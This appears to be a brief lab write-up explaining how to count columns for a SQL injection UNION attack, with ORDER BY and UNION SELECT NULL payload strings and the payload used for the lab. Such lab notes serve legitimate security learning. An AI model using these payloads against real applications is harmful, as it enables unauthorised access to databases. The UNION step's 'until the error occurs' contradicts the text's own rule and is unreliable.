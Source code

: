  There are exactly two ways to determine the number of columns required in an SQL injection UNION attack
 
  1. The first one involves injecting a series of ORDER BY queries until an error occurs. The last value before the error would indicate the number of columns. For example:
  
          ' ORDER BY 1--
          ' ORDER BY 2--
          ' ORDER BY 3-- 
          and so on until an error occurs 
  2.  The second one (most effective in my opinion), would involve submitting a series of UNION SELECT payloads with a number of NULL values. 
			No error = number of NULL matches the number of columns
      ```
		' UNION SELECT NULL--
		' UNION SELECT NULL,NULL--
		' UNION SELECT NULL,NULL,NULL--
		until the error occurs
      ```
      
      Payload for this lab:
      ```
      ' UNION SELECT NULL,NULL,NULL--+
      
      or
      
      ' ORDER BY 3--+
      ```
      
      
